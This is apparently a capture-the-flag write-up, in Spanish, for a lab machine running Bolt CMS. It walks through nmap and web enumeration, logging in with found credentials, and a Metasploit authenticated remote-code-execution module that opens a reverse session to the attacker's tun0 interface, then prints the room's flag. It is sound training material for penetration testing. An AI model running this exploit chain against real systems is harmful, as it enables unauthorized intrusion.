








# Bolt

## Enumeration

### Nmap

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.103.171 -oG allPorts
```



```bash
nmap -sC -sV -O -p22,80,8000 -Pn 10.10.103.171 -oN targeted.txt

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    (PHP 7.2.32-1)
|_http-title: Bolt | A hero is unleashed
|_http-generator: Bolt
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Date: Fri, 27 Sep 2024 08:27:38 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Fri, 27 Sep 2024 08:27:38 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: c3f952
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Fri, 27 Sep 2024 08:27:38 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Fri, 27 Sep 2024 08:27:38 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: 1342be
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.94SVN%I=7%D=9/27%Time=66F66C7A%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,19F9,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Fri,\x2027\x20Sep\
SF:x202024\x2008:27:38\x20GMT\r\nConnection:\x20close\r\nX-Powered-By:\x20
SF:PHP/7\.2\.32-1\+ubuntu18\.04\.1\+deb\.sury\.org\+1\r\nCache-Control:\x2
SF:0public,\x20s-maxage=600\r\nDate:\x20Fri,\x2027\x20Sep\x202024\x2008:27
SF::38\x20GMT\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\nX-Debug-T
SF:oken:\x201342be\r\n\r\n<!doctype\x20html>\n<html\x20lang=\"en-GB\">\n\x
SF:20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20charset=
SF:\"utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20name=\"viewport\"\
SF:x20content=\"width=device-width,\x20initial-scale=1\.0\">\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<title>Bolt\x20\|\x
SF:20A\x20hero\x20is\x20unleashed</title>\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0<link\x20href=\"https://fonts\.googleapis\.com/css\?family=Bitter\|Rob
SF:oto:400,400i,700\"\x20rel=\"stylesheet\">\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20<link\x20rel=\"stylesheet\"\x20href=\"/theme/base-2018/css/bulma\.c
SF:ss\?8ca0842ebb\">\n\x20\x20\x20\x20\x20\x20\x20\x20<link\x20rel=\"style
SF:sheet\"\x20href=\"/theme/base-2018/css/theme\.css\?6cb66bfe9f\">\n\x20\
SF:x20\x20\x20\t<meta\x20name=\"generator\"\x20content=\"Bolt\">\n\x20\x20
SF:\x20\x20\t<link\x20rel=\"canonical\"\x20href=\"http://0\.0\.0\.0:8000/\
SF:">\n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body\x20class=\"front\">\
SF:n\x20\x20\x20\x20\x20\x20\x20\x20<a\x20")%r(FourOhFourRequest,102B,"HTT
SF:P/1\.0\x20404\x20Not\x20Found\r\nDate:\x20Fri,\x2027\x20Sep\x202024\x20
SF:08:27:38\x20GMT\r\nConnection:\x20close\r\nX-Powered-By:\x20PHP/7\.2\.3
SF:2-1\+ubuntu18\.04\.1\+deb\.sury\.org\+1\r\nCache-Control:\x20private,\x
SF:20must-revalidate\r\nDate:\x20Fri,\x2027\x20Sep\x202024\x2008:27:38\x20
SF:GMT\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\npragma:\x20no-ca
SF:che\r\nexpires:\x20-1\r\nX-Debug-Token:\x20c3f952\r\n\r\n<!doctype\x20h
SF:tml>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20init
SF:ial-scale=1\.0\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20<title>Bolt\x20\|\x20A\x20hero\x20is\x20unleashed</title>\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20<link\x20href=\"https://fonts\.googleap
SF:is\.com/css\?family=Bitter\|Roboto:400,400i,700\"\x20rel=\"stylesheet\"
SF:>\n\x20\x20\x20\x20\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=
SF:\"/theme/base-2018/css/bulma\.css\?8ca0842ebb\">\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/theme/base-2018/css/t
SF:heme\.css\?6cb66bfe9f\">\n\x20\x20\x20\x20\t<meta\x20name=\"generator\"
SF:\x20content=\"Bolt\">\n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body>\
SF:n\x20\x20\x20\x20\x20\x20\x20\x20<a\x20href=\"#main-content\"\x20class=
SF:\"vis");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.7 - 3.10 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP 

```bash
whatweb http://10.10.103.171

whatweb http://10.10.103.171:8000
```


| user | password|
|---|---|
| bolt | boltadmin123 |




Buscamos con dirbuster y gobuster pero nada interesante.

```bash
gobuster dir -u http://10.10.103.171:8000/  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 php,js,html,txt

nmap --script=http-enum -p8000 10.10.103.171 -oN webScan 
```




Buscamos en google algo relacionado con alguna ruta login ya que tenemos credenciales 



url: 
```bash
http://10.10.103.171:8000/bolt/login
```




Ingresamos con las credencial y encontramos la version de bolt: 3.7.1




## Exploit

Buscamos posibles exploit

```bash
searchsploit bolt
```




```bash
use exploit/unix/webapp/bolt_authenticated_rce
set RHOSTS 10.10.103.171
set USERNAME bolt
set PASSWORD boltadmin123
set LHOST tun0

run
```


```bash
cat /home/flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
```



